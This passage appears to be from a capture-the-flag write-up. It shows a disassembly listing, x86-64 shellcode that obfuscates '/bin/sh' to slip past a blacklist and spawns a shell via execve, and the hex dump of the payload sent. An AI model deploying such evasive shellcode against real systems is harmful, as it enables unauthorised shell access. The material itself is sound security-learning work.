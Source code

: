 ```asm 
0010156d 48 c7 c6        MOV        RSI,-0x6
         fa ff ff ff
00101574 49 c7 c0        MOV        R8,-0x7
         f9 ff ff ff
0010157b 49 c7 c1        MOV        R9,-0x8
         f8 ff ff ff
00101582 49 c7 c2        MOV        R10,-0x9
         f7 ff ff ff
00101589 49 c7 c3        MOV        R11,-0xa
         f6 ff ff ff
00101590 49 c7 c4        MOV        R12,-0xb
         f5 ff ff ff
00101597 49 c7 c5        MOV        R13,-0xc
         f4 ff ff ff
0010159e 49 c7 c6        MOV        R14,-0xd
         f3 ff ff ff
001015a5 49 c7 c7        MOV        R15,-0xe
         f2 ff ff ff
001015ac c3              RET        /* POP RIP */
```

Now that we have understood how the program works, all we need to do is inject a nicely crafted shellcode that will bypass the blacklist check. To achieve that, we just need to slightly obfuscate our `/bin/sh`. This is simply done by adding 1 to each byte of the `"/bin/sh\\0"` string, which will be reverted by the shellcode. 

```asm
xor     rdx, rdx
lea     rbx, [rip+binsh]        # Memory is r-x
sub     byte ptr [rbx+0], 0x1
sub     byte ptr [rbx+1], 0x1
sub     byte ptr [rbx+2], 0x1
sub     byte ptr [rbx+3], 0x1
sub     byte ptr [rbx+4], 0x1
sub     byte ptr [rbx+5], 0x1
sub     byte ptr [rbx+6], 0x1
sub     byte ptr [rbx+7], 0x1
mov     rdi, rbx
push    rdx
push    rbx
mov     rsi, rsp
mov     eax, 0x3b               # Null bytes in this instruction
syscall
hang:
    jmp hang
binsh:                          # !! is readonly
    .ascii "/0cjo0ti\1"
```

Payload:
```
Sent 0x1000 bytes:
                                    v   v  v
    00000000  48 31 d2 48  8d 1d 30 00  00 00 80 2b  01 80 6b 01  │H1·H│··0·│···+│··k·│
    00000010  01 80 6b 02  01 80 6b 03  01 80 6b 04  01 80 6b 05  │··k·│··k·│··k·│··k·│
    00000020  01 80 6b 06  01 80 6b 07  01 48 89 df  52 53 48 89  │··k·│··k·│·H··│RSH·│
                       v   v  v
    00000030  e6 b8 3b 00  00 00 0f 05  eb fe 2f 30  63 6a 6f 30  │··;·│····│··/0│cjo0│
    00000040  74 69 01 90  90 90 90 90  90 90 90 90  90 90 90 90  │ti··│····│····│····│
    00000050  90 90 90 90  90 90 90 90  90 90 90 90  90 90 90 90  │····│····│····│····│
```
